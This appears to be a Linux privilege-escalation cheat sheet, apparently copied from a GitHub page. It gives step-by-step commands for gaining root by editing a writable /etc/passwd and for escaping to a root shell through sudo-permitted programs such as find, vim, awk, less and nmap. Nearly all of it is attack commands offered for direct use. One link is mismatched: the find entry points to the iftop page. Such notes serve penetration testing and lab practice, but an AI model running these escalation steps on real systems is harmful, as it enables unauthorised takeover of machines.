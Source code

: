 ### Weak File Permissions - Writable /etc/passwd

Generate a new password hash

`openssl passwd <PASSWORD>` or `mkpasswd <PASSWORD>`

Replace the x in the root users row of the /etc/passwd file with the new hash 

Login as root with the new password

Alternatively, copy the root user's row in /etc/passwd and change the username to newroot

Login as newroot with the previously generated password 

### Sudo - Shell Escape Sequences

Use `sudo -l` to list the commands your user can run as super user

1. /usr/sbin/iftop [GTFOBins link](https://gtfobins.github.io/gtfobins/iftop/)

`sudo iftop`
`!/bin/sh`

2. /usr/bin/find [GTFOBins link](https://gtfobins.github.io/gtfobins/iftop/)

`sudo find . -exec /bin/sh \; -quit`

3. /usr/bin/nano [GTFOBins link](https://gtfobins.github.io/gtfobins/nano/)

`sudo nano`
`^R^X`
`reset; sh 1>&0 2>&0`

4. /usr/bin/vim [GTFOBins link](https://gtfobins.github.io/gtfobins/vim/)

`sudo vim -c ':!/bin/sh'`

5. /usr/bin/man [GTFOBins link](https://gtfobins.github.io/gtfobins/man/)

`sudo man man`
`!/bin/sh`

6. /usr/bin/awk [GTFOBins link](https://gtfobins.github.io/gtfobins/awk/)

`sudo awk 'BEGIN {system("/bin/sh")}'`

7. /usr/bin/less [GTFOBins link](https://gtfobins.github.io/gtfobins/less/)

`sudo less /etc/profile`
`!/bin/sh`

8. /usr/bin/ftp [GTFOBins link](https://gtfobins.github.io/gtfobins/ftp/)

`sudo ftp`
`ftp> !/bin/sh`

9. /usr/bin/nmap [GTFOBins link](https://gtfobins.github.io/gtfobins/nmap/)

`TF=$(mktemp)`
`echo 'os.execute("/bin/sh")' > $TF`
`sudo nmap --script=$TF`
